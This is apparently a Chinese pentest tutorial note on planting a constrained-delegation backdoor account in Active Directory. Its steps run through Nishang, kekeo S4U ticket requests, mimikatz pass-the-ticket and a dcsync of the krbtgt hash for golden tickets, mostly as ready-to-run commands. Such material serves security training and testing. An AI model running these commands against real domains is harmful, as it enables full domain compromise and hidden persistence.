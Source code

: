 	http://192.168.0.107/ps/nishang/ActiveDirectory/Add-ConstrainedDelegationBackdoor.ps1
	新增一个受限委派服务账户，或添加受限委派后门功能给一个已知账户密码存在的服务账户。
	需运行在域控制器上，本次演示的是新建后门账户，若是给已知账户密码的服务账户添加功能，步骤一致。
	PS > Add-ConstrainedDelegationBackdoor -SamAccountName backdoor -Domain zone.com -AllowedToDelegateTo ldap/dc.zone.com
	密码默认为Password@123!可以修改脚本中$Password参数修改密码。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/561.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/562.png)

	https://github.com/samratashok/ADModule
	导入ADModule中的Microsoft.ActiveDirectory.Management.dll和Import-ActiveDirectory.ps1
	>Import-Module Microsoft.ActiveDirectory.Management.dll -Verbose
	>Import-Module Import-ActiveDirectory.ps1
	现以域内普通用户y登录一台域内机器sub2k8，使用kekeo获取TGT
	Kekeo#tgt::ask /user:backdoor /domain:zone.com /password:Passowrd@123!
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/563.png)

	Kekeo#tgs::s4u /tgt:TGT_backdoor@ZONE.COM_krbtgt~zone.com@ZONE.COM.kirbi /user:godadmin@zone.com /service:ldap/dc.zone.com获取以域管理身份访问ldap的TGS 
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/564.png)

	使用mimikatz写入TGS票据
	mimikatz#kerberos::ptt C:\Users\y.ZONE\Desktop\kekeo\x64\TGS_godadmin@zone.com@ZONE.COM_ldap~dc.zone.com@ZONE.COM.kirbi
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/565.png)

	接下来就可以dcsync导出krbtgt的hash，通过krbtgt伪造黄金票据
	mimikatz#lsadump::dcsync /user:krbtgt /domain:zone.com
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/566.png)
